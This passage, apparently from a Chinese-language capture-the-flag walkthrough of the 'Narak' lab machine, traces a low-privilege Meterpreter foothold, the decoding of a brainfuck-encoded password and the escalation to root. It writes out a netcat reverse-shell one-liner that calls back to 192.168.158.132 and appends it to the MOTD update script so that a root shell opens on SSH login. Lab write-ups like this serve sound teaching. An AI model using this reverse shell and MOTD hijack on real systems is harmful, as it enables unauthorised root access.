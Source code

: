 成功拿到 meterperter

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMa9y9JfKI1qgHAFlXAyk8YMUKK40EsCHD1qSouGYkOQuqiamXUZMLicpqw/640?wx_fmt=png)

权限比较低

查看内核

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaTvxB4cohRLrcvIuwX5yq5dLC0wCa2NC8AFVg729zYSYSTH8r3PbSmg/640?wx_fmt=png)

使用 searchsploit 查看是否有可以提权的脚本

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaaXFBmQ3KRFp3Q4Rz6ibsvrhXBrhR5e6fqliaul3B8sDxdazkTiaek5Urg/640?wx_fmt=png)

没有发现利用的脚本，看来提权得翻文件了

在 / home/inferno 目录中找到了 user.txt

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMal1IpFC7Wyg9xIoBGWLZb2vkz2x1oriceUjtMZfKePVoAoib4JbEJHHVQ/640?wx_fmt=png)

在 home 目录中可以发现还存在 2 个用户

我们还需要找到 root.txt, 这个文件估计需要我们提权了

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMajibrClOGayGRjxhCZicPH41L6ZH2hc1NepEOWGunyJr71aZFRN1gvkiaA/640?wx_fmt=png)

Yamdoot 应该是 TFPT 用户，narak 我们访问不了，应该为高权限账号

继续翻文件

在 / mnt 目录发现一段密文

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaicZW49fMyHibsFaD0ot9tbKlL8gY1Yd7AKnZ4UhpkzmH4Ecyn67qIg2g/640?wx_fmt=png)

百度可以得到为 brainfuck

使用 brainfuck 在线解密

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaOmxzk4icyxqlGW6Zzb5hLT15MvcjKuVJA3RB6ZNrUf57Nt9QJj0Lo3Q/640?wx_fmt=png)

得到 chitragupt，感觉可能是某个账号的密码

我们对 3 个账号进行尝试

使用 inferno/chitragupt 登录成功

接着我们可以上传 linpeas 来查找可供我们提权的文件

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaPpLn7gjPvnZRxLPfeIhDdaFCT6hYvBKgEDosAKsAv5h4rz21GjdSmA/640?wx_fmt=png)

/etc/motd 欢迎界面 我们可以通过修改 ssh 登陆时的欢迎信息来反弹一个 root 的 shell 使用命令 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i2>&1|nc 192.168.158.132 1234 >/tmp/f" >>/etc/update-motd.d/00-header
===================================================================================================================================================================================

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMacX9NLM0kyX4Q3896iaNnMAZhe5LOoM9eEnk3E85bfm1XaDJAtpcIrnw/640?wx_fmt=png)

接着 kali 使用 nc 监听

